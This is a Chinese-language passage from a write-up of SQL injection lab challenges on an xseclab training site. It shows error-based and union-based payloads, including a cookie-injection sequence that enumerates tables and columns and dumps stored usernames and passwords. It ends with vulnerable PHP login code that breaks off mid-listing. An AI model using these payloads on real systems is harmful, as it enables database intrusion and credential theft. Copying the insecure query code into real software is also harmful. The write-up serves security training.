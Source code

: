 ```bash
?username=admin' union select count(*),concat(0x3a,0x3a,(select username from motto limit 0,1),0x3a,0x3a,floor(2*rand(0)))a FROM information_schema.tables GROUP BY a %23
```
尝试别的语句
```bash
http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/index.php?username=admin' and extractvalue(1, concat(0x3a,(SELECT distinct concat(0x3a,username,0x3a,motto,0x3a,0x3a) FROM motto limit 3,1)))%23
```

# 7.盲注
sqlmap可以跑出来，网络连接不太好容易断。
# 8.cookie注入
在cookie后面加上了一个id=\,报错
```bash
Cookie: PHPSESSID=9f5169cbfb23ef8e10ca86f02cae97c9;id=\
```
得到字段长度
```bash
Cookie: PHPSESSID=9f5169cbfb23ef8e10ca86f02cae97c9;id=2 order by 4
```

得到显示位
```bash
Cookie: PHPSESSID=9f5169cbfb23ef8e10ca86f02cae97c9;id=0 union select 1,2,3
```
得到表名
```bash
Cookie: PHPSESSID=9f5169cbfb23ef8e10ca86f02cae97c9;id=0 union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database())
```
得到字段名
```bash
Cookie: PHPSESSID=9f5169cbfb23ef8e10ca86f02cae97c9;id=0 union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='sae_manager_sqli8')
```
脱裤
```bash
Cookie: PHPSESSID=9f5169cbfb23ef8e10ca86f02cae97c9;id=0 union select id,username,password from sae_manager_sqli8
```

# 9.哈希后的密码是不能产生注入的

```bash

PLEASE LOGINT!<noscript><?php
include "config.php";
if(isset($_GET['userid']) && isset($_GET['pwd'])){
   $strsql="select * from `user` where userid=".intval($_GET['userid'])." and password='".md5($_GET['pwd'], true) ."'";
    
    $conn=mysql_connect($dbhost,$username,$pwd);
    mysql_select_db($db,$conn);
    $result=mysql_query($strsql);
    print_r(mysql_error());
    $row=mysql_fetch_array($result);
    mysql_close($conn);
    echo "<pre>";
    print_r($row);
    
    echo "</pre>";
    if($row!=null){
```